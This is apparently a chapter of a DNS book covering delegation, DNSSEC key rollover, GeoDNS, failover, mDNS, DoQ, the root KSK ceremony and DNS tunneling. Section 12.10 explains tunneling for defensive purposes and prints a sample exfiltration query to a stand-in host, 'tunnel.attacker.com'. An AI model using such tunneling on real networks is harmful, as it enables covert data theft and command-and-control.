





# Chapter 12: Advanced DNS Topics — For the Truly Masochistic

> *"Some people see the DNS rabbit hole and back away slowly."*
> *"Some people see the DNS rabbit hole and jump in."*
> *"This chapter is for the second group."*

---

## 12.1 DNS Zones and Zone Delegation

A **DNS zone** is a portion of the DNS namespace managed by a specific nameserver or set of nameservers. Zone delegation is how parent zones hand off authority for subdomains to child zones.

When you register `example.com`, the `.com` TLD zone delegates to your nameservers:

```
; In the .com TLD zone:
example.com.    172800    IN    NS    ns1.nameserverprovider.com.
example.com.    172800    IN    NS    ns2.nameserverprovider.com.
```

You can further delegate subdomains to different nameservers — a technique useful for large organizations with separate teams managing different subdomains:

```
; In the example.com zone:
; Delegate all of engineering.example.com to engineering's own nameservers
engineering.example.com.    300    IN    NS    ns1.engineering.example.com.
engineering.example.com.    300    IN    NS    ns2.engineering.example.com.

; Glue records for the engineering NS servers
ns1.engineering.example.com.    300    IN    A    10.1.1.1
ns2.engineering.example.com.    300    IN    A    10.1.1.2
```

Now engineering can manage their own DNS records independently, and the example.com team only needs to manage the delegation record. Changes to `api.engineering.example.com` don't require any involvement from the example.com team.

---

## 12.2 DNSSEC Key Management

DNSSEC involves two types of keys:

**ZSK (Zone Signing Key):** Signs the actual DNS records. Should be rotated frequently (every few months to a year) because it's used constantly and a compromise would allow an attacker to forge any record in your zone.

**KSK (Key Signing Key):** Signs the ZSK. Rotated rarely (every year to a few years). A KSK compromise is more serious — it would allow an attacker to publish fake ZSKs.



The chain of trust: a resolver trusts the root KSK (hardcoded), verifies each link in the chain, and ultimately verifies that the DNS record was signed by the zone's ZSK.

**ZSK Rotation Process:**
1. Generate new ZSK
2. Publish new ZSK in zone (DNSKEY record) — now two ZSKs exist
3. Wait for caches to pick up both keys
4. Start signing records with new ZSK
5. Wait for old signatures to expire
6. Remove old ZSK

**KSK Rotation Process (much scarier):**
1. Generate new KSK
2. Publish new KSK (now two KSKs)
3. Submit new KSK to parent zone (as a DS record) — **manual step required!**
4. Wait for parent DS record to propagate
5. Remove old KSK
6. Submit removal to parent

The scariest part of KSK rotation: you must successfully update the parent zone's DS record. If you remove the old KSK before the parent DS record is updated, or if the DS update has problems, your entire zone becomes DNSSEC-invalid and resolves as SERVFAIL for all DNSSEC-validating resolvers.

This is why DNSSEC rollout is slow. The operational risk is real and the recovery from mistakes is painful.

---

## 12.3 GeoDNS — Location-Aware DNS

**GeoDNS** returns different DNS answers based on the geographic location of the querying resolver. This allows you to direct users to the nearest server:

```
; What GeoDNS looks like conceptually
; (the actual mechanism is in the DNS provider's logic, not zone file syntax)

; US users get:
www.example.com.    60    IN    A    203.0.113.1    ; US server

; EU users get:
www.example.com.    60    IN    A    198.51.100.1   ; EU server

; Asia users get:
www.example.com.    60    IN    A    192.0.2.1      ; APAC server
```

GeoDNS location is typically determined by the IP address of the **recursive resolver** (not the end user), which is a limitation. Large ISPs and corporate networks may have resolvers far from their users.

EDNS Client Subnet (ECS) extension helps with this — it sends a truncated version of the client's IP to the authoritative server, allowing more accurate geo-targeting.



Note: ECS is a privacy concern (it shares partial client IP with authoritative servers) and is not universally supported. Cloudflare's resolver (`1.1.1.1`) does not send ECS by default for privacy reasons.

---

## 12.4 DNS-Based Load Balancing — Weighted Records

Beyond simple round-robin, many DNS providers support weighted A records — returning different IPs with different probabilities:

```
; 70% of traffic goes to server1, 30% to server2
www.example.com.    60    IN    A    1.2.3.4    weight=70
www.example.com.    60    IN    A    5.6.7.8    weight=30
```

This isn't standard DNS syntax — it's a provider-level feature. AWS Route 53 calls these "Weighted Routing Policies." Cloudflare's Load Balancer does this. It's a powerful tool for canary deployments:



The catch: DNS-level load balancing doesn't do health checking on its own. If the server at weight=90 goes down, DNS keeps sending 90% of traffic to it until a health check mechanism intervenes (which is a feature you must configure separately).

---

## 12.5 DNS Failover and Health Checks

**DNS failover** is the practice of using DNS to route traffic away from unhealthy servers. It works like this:

1. DNS provider runs health checks against your servers
2. If a server fails health checks, the provider removes its A record
3. Clients that re-query DNS get the healthy server's IP
4. When the server recovers, its A record is added back



The latency of this failover is: *health check interval × failure threshold + TTL*

If your health check runs every 10 seconds, requires 3 consecutive failures, and your TTL is 60 seconds:
- **Detection time**: 10s × 3 = 30 seconds
- **Propagation time**: 60 seconds (TTL)
- **Total**: ~90 seconds of failed traffic before clients stop trying the dead server

This is why disaster recovery scenarios use very low TTLs (60 seconds or less) and aggressive health checking.

---

## 12.6 Multicast DNS (mDNS) and .local

**mDNS** (Multicast DNS) is a protocol that allows DNS-like name resolution without a central DNS server, using multicast packets on the local network. It operates on the `.local` TLD (which is reserved for mDNS and MUST NOT be delegated in normal DNS).

When your Mac resolves `your-printer.local`, it sends a multicast query to `224.0.0.251`. Any device on the local network that recognizes that name responds. No DNS server required.

You've encountered mDNS if you've ever:
- Printed to a printer using its `.local` name
- Used `hostname.local` to connect to another machine on your network
- Used Apple's Bonjour (which is Apple's implementation of mDNS + DNS-SD)

**Important:** `.local` is not real DNS. If you configure a domain like `app.local` for internal company use, it might partially work on some networks but is not reliable, especially in environments that use mDNS. Use a real internal TLD or a registered domain.

In Kubernetes, the cluster domain `cluster.local` uses legitimate DNS (CoreDNS), not mDNS — despite the `.local` suffix. This is technically a violation of the mDNS spec but it works because Kubernetes controls its own DNS resolver configuration.

---

## 12.7 DNS over QUIC (DoQ)

The newest DNS transport protocol is **DNS over QUIC** (DoQ), defined in RFC 9250. It uses the QUIC protocol (the same underlying transport as HTTP/3) over UDP port 853.

Advantages over DoT and DoH:
- **Lower latency**: QUIC's 0-RTT connection establishment means faster initial queries
- **Better multiplexing**: Multiple DNS queries can be in flight without head-of-line blocking
- **Improved performance on lossy networks**: QUIC handles packet loss better than TCP

DoQ is new (RFC finalized in 2022) and not yet widely deployed, but expect to see it more as QUIC becomes ubiquitous.



---

## 12.8 DNS Long-Polling and "Push" Notifications

DNS is fundamentally a pull protocol — you ask, it answers. But some systems have built notification mechanisms on top of DNS:

**DNS NOTIFY**: When a primary nameserver makes a change, it sends a NOTIFY message to secondary nameservers, prompting them to check for updates rather than waiting for the refresh interval. This enables near-real-time synchronization between primary and secondary nameservers without very short refresh intervals.

**DNS Push Notifications** (RFC 8765): An experimental protocol for maintaining a long-lived connection to a DNS server and receiving pushed updates when records change. Designed for cases like IoT devices that need to receive network topology changes. Not yet widely deployed.

---

## 12.9 The DNS Root Zone Trust Anchor Ceremony

The Root Zone KSK ceremony is one of the most theatrical events in computing. Twice a year, ICANN holds a **key signing ceremony** where the Root Zone Signing Key is used to sign new key material.

The ceremony involves:
- Multiple "Trusted Community Representatives" from around the world
- Safety deposit boxes in two geographically separated facilities (Los Angeles and Fairfax, Virginia)
- Multiple lockboxes that require multiple keyholders to open simultaneously
- Hardware Security Modules (HSMs) that contain the actual key material
- Cameras and recordings for audit purposes
- Multiple credentials, tokens, and PINs held by different people

The paranoia is justified: the Root Zone KSK is the foundation of trust for the entire internet's DNSSEC. If it were compromised, an attacker could potentially forge DNS responses for any domain with DNSSEC enabled.

> **The Root Zone KSK Ceremony is like a D&D adventure:** multiple players, each with a different item required to unlock the dungeon boss, and if anyone fails their saving throw, the entire internet breaks.

There is a list of approximately 14 people worldwide who are "crypto officers" — they hold credentials needed for the ceremony. They are the Keykeepers of the Internet, and they have an incredible LinkedIn bio opportunity.

---

## 12.10 DNS as a Communication Channel

Because DNS traffic is often allowed through firewalls that block everything else, DNS has been used (and abused) as a covert communication channel.

**DNS tunneling** encodes arbitrary data inside DNS queries and responses:
```
# Normal DNS query
nslookup google.com

# DNS tunnel query (data encoded in subdomain)
nslookup aGVsbG8gd29ybGQgdGhpcyBpcyB0dW5uZWxlZA.tunnel.attacker.com
```

By encoding data as subdomains, attackers can exfiltrate data or establish a command-and-control channel, even in environments where only DNS is allowed outbound.

Defenders counter this with:
- DNS query length monitoring (legitimate hostnames rarely have 60+ character subdomain labels)
- DNS query volume monitoring (tunneling generates massive numbers of unique queries)
- DNS response size monitoring (tunneling responses are unusually large)
- DNS firewall / RPZ rules blocking known tunneling infrastructure

This is one more reason why "allow all DNS outbound, it's just DNS" is not a safe security posture.

---

## 12.11 The Future of DNS

DNS is 40 years old and still running the internet. What does its future look like?

**More encryption:** DoH and DoT adoption is growing. More clients and resolvers support them by default. The era of plaintext DNS is ending.

**Better privacy:** Techniques like Oblivious DNS (ODoH) and Encrypted Client Hello (ECH) aim to prevent even the DNS resolver from learning what you're looking up.

**Increased automation:** Certificate management (ACME), service discovery (SRV, DNS-SD), and Kubernetes-style dynamic DNS are all pushing toward more automated DNS management.

**Better monitoring:** DNS observability is improving. Real-time anomaly detection, automated rollback on changes, and comprehensive audit trails are becoming standard.

**Continued fragility:** Despite improvements, DNS will remain a source of incidents for the foreseeable future. Caching, eventual consistency, and the complexity of the global infrastructure ensure that DNS surprises await all of us.

The DNS joke at the beginning of this book will continue to be funny for decades. Some things propagate slowly.

---

*Next: [Appendix A — DNS Cheat Sheet](appendix-a-cheatsheet.md)*
